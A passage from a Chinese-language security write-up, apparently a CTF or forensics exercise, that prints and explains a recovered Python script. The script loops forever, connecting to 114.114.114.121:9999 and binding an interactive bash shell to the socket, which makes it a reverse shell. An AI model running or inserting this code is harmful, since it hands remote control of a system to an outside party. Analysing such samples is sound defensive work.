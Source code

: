     while 1:  
    try:  
    sys.stdout.flush()  
    sys.stderr.flush()  
    fdreg = open("/dev/null", "w")  
    sys.stdout = fdreg  
    sys.stderr = fdreg  
    sdregs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    sdregs.connect(("114.114.114.121", 9999))  
    os.dup2(sdregs.fileno(), 0)  
    os.dup2(sdregs.fileno(), 1)  
    os.dup2(sdregs.fileno(), 2)  
    p = subprocess.call(["/bin/bash", "-i"])  
    sdregs.close()  
    except Exception:  
    pass  
    time.sleep(2)

    * 无限循环，确保脚本不断运行。
    * 尝试执行以下操作：

      * 刷新标准输出和标准错误。
      * 打开 `/dev/null`​ 并将标准输出和标准错误重定向到 `/dev/null`​。
      * 创建一个 TCP 套接字连接到 `114.114.114.121:9999`​。
      * 使用 `os.dup2`​ 将标准输入、输出和错误重定向到这个套接字。
      * 执行 `/bin/bash -i`​，启动一个交互式 shell。
      * 关闭套接字连接。
    * 如果出现异常，忽略并继续循环。
    * 每次循环之间等待 2 秒。

**总结**

**这个脚本的目的是创建一个反弹 shell 连接，将当前系统的命令行接口通过网络发送到远程服务器** **​`114.114.114.121:9999`​**​ **，并在服务器上执行。这种行为通常被黑客用来远程控制受害者的系统。**

所以1.py并不是我们这题需要找的文件，接着继续分析一下文件shell.py；

得到；

​![在这里插入图片描述](assets/net-img-993fc586626740c49f06f96bf497d58c-20240705155114-2q7t2tw.png)​
